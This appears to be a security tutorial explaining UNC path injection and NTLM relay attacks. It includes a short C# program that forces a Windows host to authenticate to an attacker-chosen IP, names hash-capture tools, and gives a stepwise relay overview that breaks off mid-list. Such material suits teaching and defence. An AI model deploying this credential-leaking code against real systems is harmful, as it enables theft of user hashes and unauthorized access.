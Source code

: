### UNC Path Injection with Hash Capture

UNC path injection is a technique used to force a Windows machine to authenticate to a remote server by specifying a UNC path (`\\attacker_ip\share`). When the victim machine tries to access this path, it sends the user's credentials in the form of an NTLM hash to the attacker-controlled server. 

### C# Code for UNC Path Injection
Here’s a simple example in C# that triggers a UNC path injection:

```csharp
using System;

class Program
{
    static void Main()
    {
        // The UNC path should point to your attacker's IP address or hostname
        string uncPath = @"\\192.168.1.100\share";

        try
        {
            // Attempting to access the UNC path
            Console.WriteLine("Triggering UNC path injection...");
            System.IO.File.ReadAllText(uncPath);
        }
        catch (Exception ex)
        {
            Console.WriteLine($"An error occurred: {ex.Message}");
        }
    }
}
```

### Capturing the Hash

Typically, tools like Responder or Inveigh are used to capture NTLM hashes when performing UNC path injection attacks. These tools listen on the network for incoming NTLM authentication attempts and capture the credentials.

### NTLM Relay Attack Overview

**NTLM Relay Attack** is a type of man-in-the-middle (MitM) attack where an attacker intercepts and relays NTLM authentication messages between a client and a server, without needing to crack the credentials. The attacker acts as a relay between the victim and the target server, forwarding authentication requests and responses while potentially modifying the traffic to gain unauthorized access.

### How NTLM Relay Attack Works:
1. **Capture NTLM Authentication**: The attacker lures the victim into authenticating against a malicious SMB server using NTLM. This can be achieved through phishing, UNC path injection, or other social engineering tactics.

2. **Relay the Authentication**: Instead of trying to crack the captured NTLM hash, the attacker forwards (relays) it to a legitimate service (like SMB, HTTP, LDAP) on a different server, which accepts NTLM authentication.
